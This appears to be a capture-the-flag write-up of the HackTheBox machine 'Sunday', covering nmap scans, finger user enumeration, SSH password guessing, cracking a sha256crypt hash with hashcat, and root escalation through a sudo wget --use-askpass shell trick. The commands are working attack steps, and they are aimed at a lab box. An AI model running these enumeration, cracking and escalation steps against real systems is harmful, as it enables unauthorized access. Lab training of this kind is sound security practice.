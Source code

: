 ![[Pasted image 20240720111158.png]]

**Ping**
![[Pasted image 20240628182437.png]]

Nmap Scans
```
mapit 10.10.10.76
```

Nmap Default Scan
![[Pasted image 20240628182623.png]]

Nmap Service and Script Scan
![[Pasted image 20240628183044.png]]

Nmap All Port Scan
![[Pasted image 20240628183754.png]]

Script and Service scan for Newly found ports
![[Pasted image 20240628183826.png]]

On Port 6787 https://10.10.10.76:6787
![[Pasted image 20240628184452.png]]

Will Enumerate Port 79 Fingers, Check the site for more info https://book.hacktricks.xyz/network-services-pentesting/pentesting-finger
```
finger @10.10.10.76
finger admin@10.10.10.76
Finger root@10.10.10.76
```
![[Pasted image 20240628183858.png]]



Get the Perl Script from this link https://github.com/pentestmonkey/finger-user-enum/blob/master/finger-user-enum.pl to enumerate finger

User Enumeration 
```
perl finger.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```



Will try ssh to sunny 
```
ssh sunny@10.10.10.76 -p 22022
```
![[Pasted image 20240628192158.png]]
We have to try default Passwords like and box name as a password, admin, root, username as password.

In this case box name is the password **sunny:sunday**

Will first read history file 
![[Pasted image 20240628192548.png]]
![[Pasted image 20240628192606.png]]
![[Pasted image 20240628192617.png]]

Will check the backup file
![[Pasted image 20240628194257.png]]

We Try to decrypt this password of Sammy
![[Pasted image 20240628194330.png]]
Found Hash type it is sha256crypt

Will decrypt this using Hashcat
```
hashcat --help | grep -i "sha256crypt"
```
![[Pasted image 20240628194413.png]]
Found the mode, it is 7400

Will crack it now, I have saved the hash of sammy in file named hash
```
hashcat -m 7400 hash /usr/share/wordlists/rockyou.txt --force
```
![[Pasted image 20240628194549.png]]
Found it...! **sammy:cooldude**!

Will change our shell to sammy now
```
su sammy
```
![[Pasted image 20240628194713.png]]

Will jump to Privilege Escalation....!

Will check our sudo privileges 
```
sudo -l
```
![[Pasted image 20240628194743.png]]

We can execute wget with sudo, will check is there any way to escalate or privileges with in GTFObins https://gtfobins.github.io/gtfobins/wget/#sudo
![[Pasted image 20240628194852.png]]

Will run this
```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```
![[Pasted image 20240628194947.png]]
We A3r r0o!.....:)


Will get flags Now
User.txt
![[Pasted image 20240628195040.png]]

root.txt
![[Pasted image 20240628195107.png]]



Done With Sunday......:)